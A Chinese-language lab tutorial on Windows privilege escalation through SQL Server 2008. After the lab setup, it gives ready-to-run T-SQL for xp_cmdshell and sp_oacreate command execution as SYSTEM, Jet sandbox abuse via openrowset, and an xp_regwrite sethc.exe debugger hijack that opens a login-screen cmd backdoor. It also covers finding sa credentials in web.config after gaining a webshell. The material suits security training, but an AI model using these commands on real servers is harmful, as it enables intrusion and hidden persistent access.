# 1. 简介

在之前的Windows权限提升—MySQL数据库提权中已经介绍了关于数据库方面的权限提升，同时在Windows权限提升—溢出提权的时候，简要的介绍了关于Windows提权方面整体的流程与方式，这里就不再赘述，直接进行Windows权限提升—SQL Server/MSSQL数据库的提权。

SQL Server与MSSQL其实就是一个东西，只是叫法不同。

# 2. 环境准备

实验环境：Windows系统、SQL Server 2008版本

## 2.1. SQL Server介绍

 Microsoft SQLServer是一个C/S模式的强大的关系型数据库管理系统，应用领域十分广泛，从网站后台数据库到一些MIS(管理信息系统)到处都可以看到它的身影。

这里选在两个，第一个sqlexpr是安装程序，第二个managementstudio是管理程序，注意看清是64位系统还是32位系统哦。

同时建议全程联网，可能会遇到一些插件没有，在联网中可以自动安装。

下载链接：[SQL Server下载](https://www.microsoft.com/zh-CN/download/details.aspx?id=30438)



## 2.2. SQL Server安装

### 2.2.1. 主程序安装步骤

这里只把重要的展示出来，安装的时候需要注意，其它的默认都是下一步，不过可能安装过程中有所不同，如果遇到不同的可以自行搜索一下，包括我在安装中均遇到了一些不同的操作。

#### 2.2.1.1. 双击SQL EXPR

双击打开SQL EXPR文件，这里需要稍等一会， 就会出现下面的界面。点击“全新安装或向现有安装添加功能”。



#### 2.2.1.2. 实例配置

这里默认是选在命名实例，这里我们修改位默认实例，然后下一步。



#### 2.2.1.3. 服务器配置

点击“对所有SQL Server服务使用相同的账户”，然后选在system账户。



#### 2.2.1.4. 数据库引擎

点击“添加当前用户”，会自动添加当前用户，正常到这个页面默认就会选择当前用户，然后下一步，这里可能会遇到错误报告，不用管，直接下一步。



#### 2.2.1.5. 安装完成

这里就安装完成了。



### 2.2.2. 管理程序安装

这里的安装和主程序安装其实差不多，这里也是同样将重要的展示一下，不重要的一律下一步，这里的管理程序就是managementstudio。

#### 2.2.2.1. 安装插件

在部分电脑上，尤其是虚拟机可能需要安装插件，所以说为什么一定要联网呢。



#### 2.2.2.2. 安装

这里也是一样，全新安装，后续基本上保持默认，直接都是下一步。



#### 2.2.2.3. 安装完成

到这里就已经全部完成了。



### 2.2.3. 管理程序使用

这里在开始菜单找到SQL Server ManagementStudio，然后就能够打开管理菜单。


#### 2.2.3.1. 初始化

在第一次打开后，需要简单的配置一下初始化状态，然后点击连接，即可。



## 2.3. 环境配置

这里为我们提权测试，我们还需要简单的配置一下。

### 2.3.1. 重启数据库

这里我们在刚刚连接进去的页面中，右击数据库，点击"属性"，点进去后，直接点击确定，不需要点击其它的，然后重启数据库。



### 2.3.2. 添加SA用户

这里在使用SQL Server提权的时候需要获取SA用户权限才可以，所以我们这里先设置一个SA用户。

点击“安全性”“登录名”找到“SA”设置这个用户的密码。



### 2.3.3. 设置权限

还是在sa用户那个设置的页面中，设置一下权限，点击左上角的第二个属性服务器角色（server roles）,这里是你为添加该用户要实现哪些角色。一般我们自己使用都是配置最高权限的角色，一个是public ,还有一个是sysadmin。



### 2.3.4. 设置外联

这里设置一下外联，我们点击最后一个属性，也就是状态属性（Status），在这个状态栏中，我们只需要勾选上面一栏是否允许连接到数据库引擎（Permission to connect to database engine） 选择 grant(授予)；



### 2.3.5. 重启数据库

在所有都配置好后，重启一下数据库，右击—重启数据库。



### 2.3.6. 测试外联

这里需要查看一下sql server配置管理器的网络配置中的tcp/ip是否开启，然后在使用navicat进行连接。





# 3. 初期流程

所谓的初期流程就是，需要先获取到数据库的SA账户密码，然后判断端口是否为SQL Server数据库。

## 3.1. 获取SA账户密码

获取webshell之后可尝试在服务器各个站点的目录寻找sa的密码（某些站点直接在web应用程序中使用sa连接数据库），一般情况下，.net的站点数据库连接字符串在web.config或者和global.aspx也有可能是编译在DLL文件当中。

准确说这里获取SA账户密码，也就是需要获取SA管理权限。

## 3.2. 获取外联状况

如果能够连接外联更好，如果无法就需要通过webshell上的数据库管理进行操作，那么这个的前提就需要先上传一个后面木马了。当然直接外联的情况下，是保证你能够正确获取到账户密码。

# 4. SQL Server提权

## 4.1. SQL Server提权方式

- xp_cmdshell提权
- sp_oacerate提权
- SQL Server沙盒提权
- xp_regwritet提权

## 4.2. xp_cmdshell提权

 xp_cmdshell可以执行系统命令，该组件默认是关闭的，因此需要把它打开。xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重新开启它。

如果mssql被降权或者设置的是其它权限，那么我们也无法进行提权。

### 4.2.1. 获取xp_cmdshell的状态

首先首需要获取xp_cmdshell的状态，通过命令查看，是处于禁止状态。

```mssql
EXEC master.dbo.xp_cmdshell 'whoami'
```



### 4.2.2. 开启xp_cmdshell

这里通过使用命令开启xp_cmdshell即可。

```mssql
开启：
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;

关闭：   
exec sp_configure 'show advanced options', 1;
reconfigure;
exec sp_configure 'xp_cmdshell', 0;
reconfigure;
```



### 4.2.3. 执行命令

上面的程序命令执行成功后，就可以使用下面的命令进行执行命令了，并且都是以system权限执行。

```mssql
EXEC master.dbo.xp_cmdshell 'whoami'
```



## 4.3. sp_oacreate组件提权

在xp_cmdshell被删除或不能利用是可以考虑利用sp_oacreate，利用前提需要sqlserver sysadmin账户服务器权限为system。sp_oacreate 是一个存储过程，可以删除、复制、移动文件，还能配合 sp_oamethod 来写文件执行系统命令。

### 4.3.1. 判断组件是否存在

输入下面的命令，如果返回是1证明，组件是存在的，反之则不存在。

```mssql
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
```



### 4.3.2. 判断组件是否开启

通过测试发现组件并未开启。

```mssql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\1.txt'
```



### 4.3.3. 开启组件

通过执行下列命令开启组件。

```mssql
开启：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE

关闭：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 0;
RECONFIGURE WITH OVERRIDE;
```



### 4.3.4. 执行命令

将之前执行未成功的命令，进行执行，这里需要注意，使用sp_oacreate组件提权是没有回显的，需要注意，最好的办法就是通过上传webshell后去查看文档记录，若打不开C盘(权限不够的情况下)，可以将结果文件导入到你能打开的目录下。

```mssql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\1.txt'
```



### 4.3.5. 查看效果

这里我们就可以查看一下，执行的效果，当然如果你能执行命令了，那么基本上提权就是system命令，确信的情况下直接就执行你想要执行的命令吧，比如开启远程桌面，添加用户等等。



### 4.3.6. 回显执行命令

这里也是找到一个大佬写的文章，可以实现回显执行命令。

[sql server提权](https://zhuanlan.zhihu.com/p/591938680)

```mssql
declare @shell int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@shell output
exec sp_oamethod @shell,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;
```



## 4.4. 沙盒提权

沙盒模式是数据库的一种安全功能。在沙盒模式下，只对控件和字段属性中的安全且不含恶意代码的表达式求值。如果表达式不使用可能以某种方式损坏数据的函数或属性，则可认为它是安全的。利用前提需要sqlserver sysadmin账户服务器权限为system（sqlserver2019默认被降权为mssql），服务器拥有 jet.oledb.4.0  驱动。

局限性：

- Microsoft.jet.oledb.4.0一般在32位操作系统上才可以 
- Windows 2008以上 默认无  Access 数据库文件, 需要自己上传 
- sqlserver2015默认禁用Ad Hoc Distributed Queries，需要开启。

### 4.4.1. 管理Ad Hoc Distributed Queries

```mssql
开启：
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;

关闭：
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
```



### 4.4.2. 管理沙盒模式

这里我看别人的文章，说沙盒模式的开关都不影响命令的运行，这里由于需要安装在32位系统上，这里我就没有测试。

```mssql
关闭:
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

恢复:
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',2;
```


### 4.4.3. 沙盒模式说明

```mssql
沙盒模式SandBoxMode参数含义（默认是2）
0：在任何所有者中禁止启用安全模式
1：为仅在允许范围内
2：必须在access模式下
3：完全开启

查看沙盒模式
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'
```



### 4.4.4. 执行命令

这里由于需要安装32位，64位不行所以就没进行具体测试，可以看到这里报错了。

```mssql
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c whoami")')
```



## 4.5. xp_regwrite提权

通过使用xp_regwrite存储过程对注册表进行修改，替换成任意值，造成镜像劫持，当然前提条件就是未禁止注册表编辑(即写入功能)。

同时种方式如果存在杀软的话，可能会被直接拦截，大概率是由于触发到修改注册表的原因。

### 4.5.1. 查询xp_regwrite是否启用

这里查询一下是否启动，如果启用了，那么输出的结果为1，反之则为启用。

```mssql
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite'
```



### 4.5.2. 开启xp_regwrite功能

我这里已经开启了，就出现报错了，之前我试了一下关闭，好像还是报错，不过默认情况下好像是开启的。

```mssql
开启：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_regwrite',1;
RECONFIGURE;

关闭：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_regwrite',0;
RECONFIGURE;
```



### 4.5.3. 注册表劫持

利用regwrite函数修改组注册表进行劫持。

```mssql
EXEC master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
```



### 4.5.4. 查看是否劫持成功

接着我们查看是否劫持成功，可以看到下面显示cmd.exe，那么就证明劫持成功。

```mssql
exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','Debugger'
```



### 4.5.5. 测试结果

这里使用远程桌面，或者什么其它方式，进入未输入密码的界面，然后按按5次shift，即可跳出cmd.exe。



# 5. 总结

最后，这几种提权方式，目前在SQL Server2008及以前版本同时SQL Server2012上基本上都能用，但是到2016或者更高的版本上就可能会出现部分不能用，或者SA权限太低的情况，导致无法提权。